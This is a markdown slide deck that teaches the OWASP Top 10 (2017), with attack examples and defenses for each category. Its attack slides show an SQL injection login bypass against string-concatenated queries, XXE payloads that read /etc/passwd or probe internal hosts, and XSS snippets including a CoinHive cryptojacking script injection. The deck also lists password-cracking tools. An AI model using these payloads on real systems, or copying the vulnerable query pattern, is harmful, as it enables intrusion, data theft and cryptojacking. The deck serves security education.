







## OWASP Top 10 Examples
<hr />

### Disclaimer: Don't try this at home


-- Notes --

All hacking as displayed in examples is illegal

--

## OWASP 2017-A1: Injection
<hr />

| Year  | Position  | Name                      |
|------:|----------:|---------------------------|
| 2017  | A1        | Injection                 |
| 2013  | A1        | Injection                 |
| 2010  | A1        | Injection                 |
| 2007  | A2        | Injection Flaws           |
| 2004  | A6        | Injection Flaws           |
| 2003  | A6        | Command Injection Flaws   |

--

## Injection: attack
<hr />


Details: See password hacking section

--

## Injection: attack
<hr />

<!-- .element style="position: fixed; width: 400px; top: 215px; right: 50px; background-color: #ffffff;" -->

<pre><code data-trim data-noescape>
var query = "SELECT username FROM USERS U 
WHERE email = '" + $_POST['username'] + "' 
  AND pass = '" + $_POST['password'] + "'" 
</code></pre><!-- .element style="position: fixed; width: 470px; left: 30px; top: 210px;" -->

<pre>
Username: user@email.com
Password: correct horse battery staple
</code></pre><!-- .element: style="position: fixed; width: 470px; left: 30px; top: 300px;" class="fragment" data-fragment-index="0" -->


<pre><code data-trim data-noescape>
SELECT username
  FROM users
 WHERE email = 'user@email.com'
   AND pass  = 'correct horse battery staple'
</code></pre><!-- .element style="position: fixed; width: 470px; left: 30px; top: 370px;" class="fragment" data-fragment-index="1" -->

-- Notes --

Normal use-case
Happy scenario

--

## Injection: attack
<hr />

<!-- .element style="position: fixed; width: 400px; top: 215px; right: 50px; background-color: #ffffff;" -->

<pre><code data-trim data-noescape>
var query = "SELECT username FROM USERS U 
WHERE email = '" + $_POST['username'] + "' 
  AND pass = '" + $_POST['password'] + "'" 
</code></pre><!-- .element style="position: fixed; width: 470px; left: 30px; top: 210px;" -->

<pre>
Username: user@email.com
Password: ' or 1=1 --
</code></pre><!-- .element: style="position: fixed; width: 470px; left: 30px; top: 300px;" class="fragment" data-fragment-index="0" -->

<pre><code data-trim data-noescape>
SELECT username
  FROM users
 WHERE email = 'user@email.com'
   AND pass  = '' or 1=1 -- '
</code></pre><!-- .element style="position: fixed; width: 470px; left: 30px; top: 370px;" class="fragment" data-fragment-index="1" -->

-- Notes --

ABuse-case
This is what a hacker will do

--

## Injection: attack
<hr />



--

## Injection: defense
<hr />

In prioritized order
* Safe API:
  * Parameterized queries
  * ORM
  * Prepared Statements
* Input validation (whitelist-based)
* Escape special characters
* LIMIT query-results

-- Notes --

* Safe API: Use the frameworks
* Input validation: if you expect an ID, whitelist only decimals
* Escape special chars: having an sql-injection payload as password should be perfectly fine
* LIMIT: will slow down massive data-breaches (but won't stop them)

--

## Injection: further reading
<hr />

* OWASP on [2017-A1 Injection](https://www.owasp.org/index.php/Top_10-2017_A1-Injection)
* [Bobby-tables.com](https://bobby-tables.com/) <sup>Yep, seriously</sup>
* Injection Types:
  * NoSQL
  * Commands
  * ORM
  * LDAP
  * Expression Language
  * etc.


--

## OWASP 2017-A2: Broken Authentication
<hr />

| Year  | Position  | Name                                          |
|------:|----------:|-----------------------------------------------|
| 2017  | A2        | Broken Authentication                         |
| 2013  | A2        | Broken Auth. & Session Management             |
| 2010  | A3        | Broken Auth. & Session Management             |
| 2007  | A7        | Broken Auth. & Session Management             |
| 2004  | A3        | Broken Auth. & Session Management             |
| 2003  | A3        | Broken Account and Session Management         |

--

## Broken Authentication: attack
<hr />

<!-- .element style="box-shadow:none; position: fixed; left: 500px; top: 135px; width: 200px;" -->
<!-- .element style="box-shadow:none; position: fixed; left: 50px; top: 132px; width: 200px;" -->
<!-- .element style="box-shadow:none; position: fixed; left: 100px; top: 400px; width: 200px;" -->
<!-- .element style="box-shadow:none; position: fixed; left: 450px; top: 172px; width: 200px;" -->
<!-- .element style="box-shadow:none; position: fixed; left: 280px; top: 150px; width: 200px;" -->
<!-- .element style="box-shadow:none; position: fixed; left: 720px; top: 162px; width: 200px;" -->
<!-- .element style="box-shadow:none; position: fixed; left: 520px; top: 380px; width: 200px;" -->
<!-- .element style="box-shadow:none; position: fixed; left: 750px; top: 320px; width: 200px;" -->
<!-- .element style="box-shadow:none; position: fixed; left: 300px; top: 400px; width: 200px;" -->

[Information is beautiful](https://informationisbeautiful.net/visualizations/worlds-biggest-data-breaches-hacks/)<!-- .element style="position: fixed; left: 50px; bottom: 50px;" -->

-- Notes --

Although Data-breaches (with password-leaks) themselves are not the actual attack, they enable credential stuffing, which is an excellent example of broken authentication

--

## Broken Authentication: attack
<hr />

<!-- .element style="box-shadow:none; position: fixed; left: 300px; top: 130px; " -->

* [Hashcat](https://hashcat.net/hashcat/)
* [RainbowCrack](http://project-rainbowcrack.com/index.htm)
* [John the Ripper](http://www.openwall.com/john/)
* [Cain & Abel](http://www.softpedia.com/get/Security/Decrypting-Decoding/Cain-and-Abel.shtml)
* [Hydra](https://sectools.org/tool/hydra/)

-- Notes --

These tools help to crack passwords

--

## Broken Authentication: defense
<hr />

* MFA
* Advise & support password-managers
* Block leaked password
* Remove default credentials
* Remove complex password requirements & periodic changes
* Harden vs. enumeration
* Throttle login-attempts
  * Log failures -> alert
* Use secure session management
  * High entropy
  * Not in URL
  * Securely stored
  * Invalidate (on logout, idle and absolute timeouts) 

--

## Broken Authentication: further reading
<hr />

* OWASP on [2017-A2 Broken Authentication](https://www.owasp.org/index.php/Top_10-2017_A2-Broken_Authentication)
* [Passwords, fun with numbers](https://github.com/brampat/security/tree/master/publications/2019-02-20_passwords_fun_with_numbers)
* [Password attacks & defenses](https://github.com/brampat/security/tree/master/defense/passwords)

--

## OWASP 2017-A3: Sensitive Data Exposure
<hr />

| Year  | Position  | Name                                                                      |
|------:|----------:|---------------------------------------------------------------------------|
| 2017  | A3        | Sensitive Data Exposure                                                   |
| 2013  | A6        | Sensitive Data Exposure                                                   |
| 2010  | A7 - A9   | Insecure Cryptographic Storage - Insufficient Transport Layer Protection  |
| 2007  | A8 - A9   | Insecure Cryptographic Storage - Insecure Communications                  |
| 2004  | A8        | Insecure Storage - (new in 2007)                                          |
| 2003  | A8        | Insecure Use of Cryptography                                              |

--

## Sensitive Data Exposure: attack
<hr />

<!-- .element style="width: 400px;" -->

[Breed-ready status](https://www.bleepingcomputer.com/news/security/creepy-database-lists-breedready-status-for-18-million-women/)<!-- .element style="position: fixed; width: 400px; bottom: 100px; right: 100px;" -->

--

## Sensitive Data Exposure: attack
<hr />

<!-- .element style="box-shadow:none; position: fixed; left: 520px; top: 380px; width: 200px;" -->
<!-- .element style="box-shadow:none; position: fixed; left: 300px; top: 400px; width: 200px;" -->
<!-- .element style="box-shadow:none; position: fixed; left: 250px; top: 180px; width: 350px;" -->
<!-- .element style="box-shadow:none; position: fixed; left: 100px; top: 300px; width: 200px;" -->
<!-- .element style="box-shadow:none; position: fixed; right: 50px; top: 200px; width: 300px;" -->

-- Notes --

* [Marriott](https://www.nytimes.com/2018/11/30/business/marriott-data-breach.html) Data Breach with unencrypted passports and credit-card details
* [Family Locator](https://techcrunch.com/2019/03/23/family-tracking-location-leak/) leaked unencrypted GPS data
* [LinkedIn](https://www.vice.com/en_us/article/4xaaxb/you-can-now-finally-check-if-you-were-a-victim-of-the-2012-linkedin-hack) had 164 Million accounts with unsalted SHA1 passwords
* [FlipBoard](https://thehackernews.com/2019/05/flipboard-data-breach-hacking.html): Real names, usernames, salted & hashes passwords, email-addresses, digital tokens for linked social media services
* [JustDial](https://thehackernews.com/2019/04/justdial-hacked-data-breach.html): NoSQL database accessed by an old API endpoint containing users' name, email, mobile number, address, gender, date of birth, photo, occupation, company name

--

## Sensitive Data Exposure: defense
<hr />

* Classify data on confidentiality
* Apply controls per classification
* Don't store unnecessary data
* Encrypt at at rest & in transit
* Use strong encryption & proper key-management
* Enforce HTTPS using HTTP Strict Transport Security (HSTS)
* Use proper password storage
  * Salted
  * Peppered
  * Slow
  * Hashing (Argon2, scrypt, bcrypt, PBKDF2)

--

## Sensitive Data Exposure: further reading
<hr />

* OWASP on [2017-A3 Sensitive Data Exposure](https://www.owasp.org/index.php/Top_10-2017_A3-Sensitive_Data_Exposure)
* [Password attacks & defenses](https://github.com/brampat/security/tree/master/defense/passwords)
* [Security Headers](https://securityheaders.com/)
* TLS
* HSTS
* GDPR

--

## OWASP 2017-A4: XML External Entities (XXE)
<hr />

| Year  | Position  | Name                          |
|------:|----------:|-------------------------------|
| 2017  | A4 (new)  | XML External Entities (XXE)   |
| 2013  |           |                               |
| 2010  |           |                               |
| 2007  |           |                               |
| 2004  |           |                               |
| 2003  |           |                               |

--

## XML External Entities (XXE): attack
<hr />

Data Extraction:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

Network Intrusion:
```xml
<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
```

Denial of Service:
```xml
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
```

-- Notes --

Old XML processors include external files referenced from the XML.
When accepting XML, this could result in several different attacks:
* Data extraction by including a reference to sensitive files
* Network intrusion by probing private network URI's
* Denial of Service by including large / endless files or recursive references

--

## XML External Entities (XXE): defense
<hr />

In prioritized order
* Developer training
* JSON
  * Avoid serialization of sensitive data
* Upgrade XML Processors
  * Dependency checks
  * SOAP 1.2+
* Disable XML External entity & DTD processing
* Server-side whitelist-based input validation, filtering and sanitization
* XSD Validation on incoming XML / XSL
* SAST tools
* Virtual patching, API security gateways, WAFs

--

## XML External Entities (XXE): further reading
<hr />

* OWASP on [2017-A4 XML External Entities (XXE)](https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_%28XXE%29)
* [Hacksplaining](https://www.hacksplaining.com/prevention/xml-external-entities) prevention
* [Acunetix](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)

--

## OWASP 2017-A5: Broken Access Control
<hr />

| Year  | Position  | Name                                                                      |
|------:|----------:|---------------------------------------------------------------------------|
| 2017  | A5        | Broken Access Control                                                     |
| 2013  | A4 - A7   | Insecure Direct Object References - Missing Function Level Access Control |
| 2010  | A4 - A8   | Insecure Direct Object References – Failure to Restrict URL Access        |
| 2007  | A4 - A10  | Insecure Direct Object References – Failure to Restrict URL Access        |
| 2004  | A2        | Broken Access Control                                                     |
| 2003  | A2 - A9   | Broken Access Control - Remote Administration Flaws                       |

--

## Broken Access Control: attack
<hr />



```
GET http://canadian-business-news/company/maple-syrup-inc/2019-Q2.pdf
```

--

## Broken Access Control: defense
<hr />

* Implement server-side validation
* Deny by default (unless public)
* Centralize implementation
* Minimize CORS
* Use ABAC instead of RBAC
* Disable server dir-listing
* Remove metadata and backup-files
* Log access control failures and alert admins if needed
* Rate limit API and controller access
* Invalidate JWT's on server after logout
* Create functional access control unit- and integration tests (including negatives)

-- Notes --

* Client-side access validation can be circumvented
* CORS: Cross Origin Resource Sharing
* Patient-records should only be accessed by patient's own doctor, not all doctors

--

## Broken Access Control: further reading
<hr />

* OWASP on [2017-A5 Broken Access Control](https://www.owasp.org/index.php/Top_10-2017_A5-Broken_Access_Control)
* [Hacksplaining](https://www.hacksplaining.com/prevention/broken-access-control)

--

## OWASP 2017-A6: Security Misconfiguration
<hr />

| Year  | Position  | Name                      |
|------:|----------:|---------------------------|
| 2017  | A6        | Security Misconfiguration |
| 2013  | A5        | Security Misconfiguration |
| 2010  | A6 (new)  | Security Misconfiguration |
| 2007  |           |                           |
| 2004  |           |                           |
| 2003  |           |                           |

--

## Security Misconfiguration: attack
<hr />

<!-- .element style="box-shadow:none; position: fixed; left: 50px; top: 150px; width: 500px;" -->
<!-- .element style="box-shadow:none; position: fixed; right: 50px; bottom: 0px; width: 500px;" -->

--

## Security Misconfiguration: defense
<hr />

* Automated build & deployment process
* Review components
* Removed default credentials
* Separated code and configuration
* NNo hardcoded credentials or other settings and secrets
* Dedicated accounts with appropriate (least) privileges
* Smoke-tests for correct version and configuration
* Segregated environments and differentiate credentials
  * No network access between environments
* Admin-tools limited to internal network
* Security awareness training
* MFA
* Account management procedure

--

## Security Misconfiguration: further reading
<hr />

* OWASP on [2017-A6 Security Misconfiguration](https://www.owasp.org/index.php/Top_10-2017_A6-Security_Misconfiguration)
* [Hacksplaining](https://www.hacksplaining.com/prevention/lax-security-settings)

--

## OWASP 2017-A7: Cross-Site Scripting (XSS)
<hr />

| Year  | Position  | Name                          |
|------:|----------:|-------------------------------|
| 2017  | A7        | Cross-Site Scripting (XSS)    |
| 2013  | A3        | Cross-Site Scripting (XSS)    |
| 2010  | A2        | Cross-Site Scripting (XSS)    |
| 2007  | A1        | Cross-Site Scripting (XSS)    |
| 2004  | A4        | Cross-Site Scripting (XSS)    |
| 2003  | A4        | Cross-Site Scripting (XSS)    |

--

## Cross-Site Scripting (XSS): attack
<hr />

<!-- .element style="width: 500px;" -->

[Harlem Shake](https://www.youtube.com/watch?v=K0noqLisW_c)

--

## Cross-Site Scripting (XSS): attack
<hr />



--

## Cross-Site Scripting (XSS): attack
<hr />

Read clipboard:
```javascript
window.clipboardData.getData('Text');
```

Webcam video & audio:
```javascript
stream = await navigator.mediaDevices.getUserMedia(constraints);
```


Crypto-jacking:
```javascript
&#x003C;script src="https://coin-hive.com/lib/coinhive.min.js"&#x003E;&#x003C;/script&#x003E;
&#x003C;script&#x003E;
  var miner = new CoinHive.Anonymous('<my account id>');
  miner.start();
&#x003C;/script&#x003E;
```

--

## Cross-Site Scripting (XSS): defense
<hr />

* Input validation
* Content escaping (context aware)
* Content encoding (context aware)
* Content-Security-Policy: script-src 'self' 

-- Notes --

Escape for the correct context:
* body
* attribute
* JavaScript
* CSS
* URL

--

## Cross-Site Scripting (XSS): further reading
<hr />

* OWASP on [2017-A7 Cross-Site Scripting (XSS)](https://www.owasp.org/index.php/Top_10-2017_A7-Cross-Site_Scripting_%28XSS%29)
* OWASP [XSS Prevention Cheat sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* XSS types:
  * [Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_%28OTG-INPVAL-001%29)
  * [Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_%28OTG-INPVAL-002%29)
  * [DOM-based XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_%28OTG-CLIENT-001%29)
* [XSS Game](https://xss-game.appspot.com/)

--

## OWASP 2017-A8: Insecure Deserialization
<hr />

| Year  | Position  | Name                      |
|------:|----------:|---------------------------|
| 2017  | A8 (new)  | Insecure Deserialization  |
| 2013  |           |                           |
| 2010  |           |                           |
| 2007  |           |                           |
| 2004  |           |                           |
| 2003  |           |                           |

--

## Insecure Deserialization: attack
<hr />


--

## Insecure Deserialization: attack
<hr />

* Deserialize an object from untrusted source
* Execute based on that object:
  * compare()
  * equals()

--

## Insecure Deserialization: attack
<hr />

<!-- .element style="box-shadow:none; position: fixed; right: 50px; top: 200px; width: 400px;" -->

* [Jenkins Miner](https://research.checkpoint.com/jenkins-miner-one-biggest-mining-operations-ever-discovered/) exploiting [CVE-2017-1000353](https://nvd.nist.gov/vuln/detail/CVE-2017-1000353) in Jenkins up to 2.56
* [Struts 2](https://www.youtube.com/watch?v=QQxBukCSW8E) RCE demo

--

## Insecure Deserialization: defense
<hr />

* Integrity checks (eg. digital signatures)
* Strict type constraints before object creation
* Isolate deserializing code in low privilege env
* Log exceptions and failures
* Restrict or monitor network connectivity from deserializing containers or servers
* Monitor deserialization and alert constant deserialization

--

## Insecure Deserialization: further reading
<hr />

* OWASP on [2017-A8 Insecure Deserialization](https://www.owasp.org/index.php/Top_10-2017_A8-Insecure_Deserialization)
* OWASP [Deserialization Cheat sheet](https://www.owasp.org/index.php/Deserialization_Cheat_Sheet)
* [Slidedeck](https://speakerdeck.com/pwntester/surviving-the-java-deserialization-apocalypse) by [Alvaro Muñoz](https://twitter.com/pwntester) and [Christian Schneider](https://twitter.com/cschneider4711)

--

## OWASP 2017-A9: Known Vulnerabilities
<hr />

| Year  | Position  | Name                                          |
|------:|----------:|-----------------------------------------------|
| 2017  | A9        | Using Components with Known Vulnerabilities   |
| 2013  | A9 (new)  | Using Components with Known Vulnerabilities   |
| 2010  |           |                                               |
| 2007  |           |                                               |
| 2004  |           |                                               |
| 2003  |           |                                               |

--

## Known Vulnerabilities: attack
<hr />

<!-- .element style="box-shadow:none; position: fixed; left: 50px; top: 200px; width: 400px;" -->
<!-- .element style="box-shadow:none; position: fixed; left: 20px; bottom: 50px; width: 300px;" -->
<!-- .element style="box-shadow:none; position: fixed; right: 20px; top: 150px; width: 300px;" -->
<!-- .element style="box-shadow:none; position: fixed; right: 150px; bottom: 20px; width: 400px;" -->

[Ghetto Car Repairs](https://www.google.com/search?q=ghetto+car+repairs&tbm=isch)

--

## Known Vulnerabilities: attack
<hr />

[Reinvent the Wheel](https://xkcd.com/2140/) Dependencies


--

## Known Vulnerabilities: attack
<hr />

* [Jenkins Miner](https://research.checkpoint.com/jenkins-miner-one-biggest-mining-operations-ever-discovered/) exploiting [CVE-2017-1000353](https://nvd.nist.gov/vuln/detail/CVE-2017-1000353) in Jenkins up to 2.56
* [Struts 2](https://www.youtube.com/watch?v=QQxBukCSW8E) RCE demo

X-Powered-By: Enables all other vulnerabilites. Hacker's Cheat-mode:




--

## Known Vulnerabilities: defense
<hr />

* Remove unused dependencies, features, components, files and documentation
* Inventory component versions and dependencies:
   * DependencyCheck
   * retire.js
* Monitor sources like CVE and NVD for vulnerabilities
* Automate & alert
* Subscribe to Email alerts for relevant components
* Obtain components from official sources over secure links
  * Signed & checked components (SHA256+)
* Monitor for unmaintained libraries and components
  * No security patches
* Virtual patch

--

## Vulnerabilities: further reading
<hr />

* OWASP on [2017-A9 Using Components with Known Vulnerabilities](https://www.owasp.org/index.php/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities)
* [13 tools for CVE](https://techbeacon.com/app-dev-testing/13-tools-checking-security-risk-open-source-dependencies) detection in Open Source dependencies
* [Harvesting CC numbers and passwords](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5) from your site using dependencies
* [Stop harvesting CC numbers and passwords](https://hackernoon.com/part-2-how-to-stop-me-harvesting-credit-card-numbers-and-passwords-from-your-site-844f739659b9)
* Snyk [State of Open Source 2019](https://snyk.io/opensourcesecurity-2019/)
* Snyk [Top 10 Docker images contain 30+ vulnerabilities](https://snyk.io/blog/top-ten-most-popular-docker-images-each-contain-at-least-30-vulnerabilities/)

--

## OWASP 2017-A10: Insufficient Logging & Monitoring
<hr />

| Year  | Position  | Name                              |
|------:|----------:|-----------------------------------|
| 2017  | A10 (new) | Insufficient Logging & Monitoring |
| 2013  |           |                                   |
| 2010  |           |                                   |
| 2007  |           |                                   |
| 2004  |           |                                   |
| 2003  |           |                                   |

--

## Insufficient Logging & Monitoring: attack
<hr />

* Logging sensitive data


<!-- .element style="width: 400px;" -->

--

## Insufficient Logging & Monitoring: <s>attack</s> broken defense
<hr />

* Not logging relevant events
* Incorrect log-level on relevant events
* No clear logging
* Not monitoring / alerts on relevant events
* No action taken on relevant events
* Logs not aggregated for easy access

--

## Insufficient Logging & Monitoring: defense
<hr />

* Log all login, access control and server-side input validation failures
* Sufficient context
* Archive long enough for analysis
* Generic format for log-aggregation
* Audit trails with integrity controls for high-value transactions
* (Near) Realtime monitoring & alerting process
* Incident repsonse & recovery process

--

## Insufficient Logging & Monitoring: further reading
<hr />

* OWASP on [2017-A10 Insufficient Logging & Monitoring](https://www.owasp.org/index.php/Top_10-2017_A10-Insufficient_Logging%26Monitoring)
* OWASP [Security Logging](https://www.owasp.org/index.php/OWASP_Security_Logging_Project) project
* [9 logging sincs in Java](https://stackify.com/9-logging-sins-java/)
* [Spring Boot Authentication Audit](https://www.baeldung.com/spring-boot-authentication-audit)
* [Splunk](https://www.splunk.com/en_us/download/splunk-enterprise.html)
* [Elastic Stack](https://www.elastic.co/products/)

